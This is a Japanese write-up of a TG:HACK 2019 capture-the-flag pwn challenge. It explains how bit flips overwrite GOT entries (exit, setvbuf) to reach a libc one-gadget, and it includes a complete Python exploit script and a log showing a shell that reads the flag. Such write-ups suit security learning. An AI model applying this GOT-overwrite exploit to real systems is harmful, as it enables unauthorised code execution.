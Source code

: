 # [pwn 300pts] Are You Flipping Kidding Me? - TG:HACK 2019
64ビットでSSPが有効です。
```
$ checksec -f flip
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Partial RELRO   Canary found      NX enabled    No PIE          No RPATH   No RUNPATH   76 Symbols     Yes	0		4	flip
```

IDAで解析しましょう。

メモリ上の任意の5ビットを反転させられるサービスのようです。
5ビットではどうしようもないので、まずはmainやdo_flip関数を何度も呼び出す方法を考えます。
プログラムの最後にexitが呼ばれているので、exit@pltと5ビットだけ異なる関数を考えます。
main関数は6ビット異なるのでダメですが、_start関数は3ビットだけ異なりました。
```
_start(0x400770) ^ exit@plt(0x400766) = 0b10110
```
これで実質任意のアドレスを書き換えられます。
あとはone gadget rceのアドレスへジャンプできれば終わりです。
libc baseをリークすることも考えましたが、今回はビット反転なので、
```
(libc_base + func_A) ^ (libc_base + one_gadget) = func_A ^ one_gadget ^ delta
```
deltaはほんの数ビットなので決め打ちすればそのうち当たります。
より相対アドレス同士のXORをしてやればあるlibc上の関数アドレスをone gadgetのアドレスに変更できます。
そこで今回はsetvbuf関数のGOTをone gadgetのものに変更することにしました。

しかし、_start関数へ飛んでしまうとinitializeからsetvbufが呼ばれてしまうので失敗します。
したがって、setvbufのGOTを書き換える前にexit@gotを_startからmainに変更します。
幸いにも_startとmainはちょうど5ビット異なるので1回で変更できます。
setvbufのアドレスを書き換えたら再び_startをmainに戻します。

```python
from ptrlib import *

def flip(writes):
    for item in writes:
        sock.recvuntil("flip: ")
        sock.sendline(hex(item[0]) + ":" + str(item[1]))

def change(addr, a, b):
    l = []
    for i, (x, y) in enumerate(zip(a, b)):
        for j in range(8):
            if ((x >> j) & 1) ^ ((y >> j) & 1) == 1:
                l.append((addr + i, j))
    if len(l) % 5 != 0:
        l += [(addr_whatever, 0) * (5 - (len(l) % 5))]
    print(a)
    print(b)
    print(l)
    flip(l)
        
elf = ELF("./flip")
libc = ELF("./libc.so.6")
#sock = Socket("flip.tghack.no", 1947)
sock = Process("./flip")

delta = 0x18000
addr_whatever = elf.symbol("__bss_start")
got_exit = elf.got("exit")
libc_one_gadget = 0x4f322

# write _start to exit@got(-->0x400766)
sock.recvuntil("that's it!\n")
flip((
    (got_exit, 1),
    (got_exit, 2),
    (got_exit, 4),
    (addr_whatever, 0),
    (addr_whatever, 0)
))

# write main to exit@got(-->0x400770)
sock.recvuntil("that's it!\n")
flip((
    (got_exit, 4),
    (got_exit, 5),
    (got_exit+1, 1),
    (got_exit+1, 2),
    (got_exit+1, 3)
))

# write one gadget to setvbuf@got
sock.recvuntil("that's it!\n")
change(elf.got("setvbuf"), p32(libc_one_gadget ^ delta), p32(libc.symbol("setvbuf")))

# write _start to exit@got(-->0x400940)
sock.recvuntil("that's it!\n")
flip((
    (got_exit, 4),
    (got_exit, 5),
    (got_exit+1, 1),
    (got_exit+1, 2),
    (got_exit+1, 3)
))

sock.interactive()
```

6回ほど試したら上手くいきました。
```
$ python solve.py 
[+] Socket: Successfully connected to flip.tghack.no:1947
[ptrlib]$ Thank you for flipping us off!
Have a nice day :)
ls
[ptrlib]$ flag.txt
flip
cat flag.txt
[ptrlib]$ TG19{you_think_this_is_some_kind_of_motherflippin_joke}
```

# 感想
面白かったですが正攻法かは分かりません。
もうちょっと綺麗な方法がありそう。
